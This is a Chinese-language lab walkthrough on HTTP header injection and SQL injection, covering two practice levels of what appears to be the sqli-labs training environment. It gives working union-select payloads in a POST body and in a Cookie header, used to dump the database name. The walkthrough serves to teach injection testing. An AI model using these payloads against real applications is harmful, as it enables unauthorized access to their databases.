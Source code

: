 ### HTTP头注入

什么是Header头？

通常HTTP消息包括客户机向服务器的请求消息和服务器向客户机响应消息。 这两种类型的消息有一个起始行，一个或者多个头域，一个只是头域结束的空行和可选的消息体组成。 HTTP的头域包括通用头，请求头，响应头和实体头四个部分

### 什么是Header头部注入？

header注入，该注入是指利用后端验证客户端信息（比如常用的cookie验证）或者通过header中获取客户端的一些信息（比如User-Agent用户代理等其他header字段信息），因为这些信息在某些地方是会和其他信息一起存储到数据库中，然后再在前台显示出来，又因为后台没有经过相对应的信息处理所以构成了sql注入。

# SQL注入靶场案例练习


### Less-11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/248050e80cb94ba4819ece5c9a45072d.png)


**用burpsuit，抓包修改参数**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5a2399e3e7a0467abd0dab8e36ad9550.png)

联合查询union select测试payload

uname=admin' union select 1,2  --+&passwd=admin&submit=Submit

爆库payload

uname=admin' union select 1,database() --+&passwd=admin&submit=Submit


### **Less-20** POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)

单引号，报错型，cookie型注入。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5f681aa84f7144c5aa6471c997b61896.png)

存在魔术引号

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/7970543bbc6a4225a7479a1e73d412c1.png)

直接cookie注入，进行绕过

Cookie: uname=-admin' union select 1,2,database()--+

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/4240a5acf9ed49ac8326cdd95dc252d7.png)


# SQL注入之查询方式
